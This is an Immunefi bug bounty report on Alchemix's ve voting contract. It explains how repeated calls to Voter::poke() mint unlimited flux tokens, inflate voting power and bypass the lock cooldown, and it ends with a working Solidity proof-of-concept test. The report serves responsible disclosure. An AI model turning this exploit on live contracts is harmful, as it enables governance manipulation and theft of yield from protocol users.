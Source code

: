 
# Manipulation of ve voting mechanism, unlimited boost, circumvention of cooldown

Submitted on Sun May 19 2024 05:53:51 GMT-0400 (Atlantic Standard Time) by @riptide for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31444

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Theft of unclaimed yield

## Description
## Brief/Intro
Logic error in `Voter::poke()` allows any attacker to create a maximum `ve` lock, boost their voting power, vote to manipulate governance proposals with falsified voting power, then circumvent the cooldown period and immediately remove their lock.

## Vulnerability Details
Calling `Voter::poke()`  will call `Voter::_vote()` directly which allows an attacker to bypass the `onlyNewEpoch` modifier that disallows multiple calls per epoch and normally prevents the calling of `Voter::accrueFlux()`. The logic within `Voter::accrueFlux()` contains an additive instruction `unclaimedFlux[_tokenId] += amount;` that allows an attacker to mint himself unlimited `flux` tokens by calling `Voter::poke()` repeatedly.

## Impact Details
The purpose of the `ve` voting and locking mechanism is that a user must lock up tokens for a set time period and is rewarded with greater voting power the longer one locks his tokens. Using this exploit, an attacker is able to lock up significant capital for the max lock time, mint `flux` tokens to further inflate voting power, vote to influence governance proposals with the grossly inflated voting power, then mint an unlimited amount of `flux` tokens to be able to `rage quit` and trigger the cooldown process. Ultimately the attacker only needs to allocate capital for one epoch (cooldown period) to catastrophically and unfairly manipulate governance voting results.  

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept

Add the following test to existing test suite in `FluxToken.t.sol`

```
function testFluxVotingManipulation() external {
        address bribeAddress = voter.bribes(address(sushiGauge));

        uint256 tokenId1 = createVeAlcx(beef, TOKEN_1M, veALCX.MAXTIME(), false);
        uint256 amount1 = veALCX.claimableFlux(tokenId1);
        uint256 unclaimedFlux1Start = flux.getUnclaimedFlux(tokenId1);

        assertEq(unclaimedFlux1Start, 0, "should start with no unclaimed flux");

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint i = 0;
        uint unclaimedFlux;
        uint maxVotingPower;

        hevm.startPrank(beef);

        uint maxBoost = voter.maxVotingPower(tokenId1) - IVotingEscrow(veALCX).balanceOfToken(tokenId1);
        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId1);

        while(unclaimedFlux < (maxBoost + ragequitAmount)) {
            voter.poke(tokenId1);
            unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        }

        flux.approve(address(veALCX), unclaimedFlux);

        hevm.warp(newEpoch());

        uint maxBoost2 = voter.maxVotingPower(tokenId1) - IVotingEscrow(veALCX).balanceOfToken(tokenId1);

        voter.vote(tokenId1, pools, weights, maxBoost2);

        flux.claimFlux(tokenId1, ragequitAmount);
        flux.approve(address(veALCX), ragequitAmount);

        veALCX.startCooldown(tokenId1);
        hevm.warp(block.timestamp + nextEpoch);
        voter.reset(tokenId1);
        veALCX.withdraw(tokenId1);

        assertEq(IERC20(bpt).balanceOf(beef), TOKEN_1M);

        hevm.stopPrank();
    }
```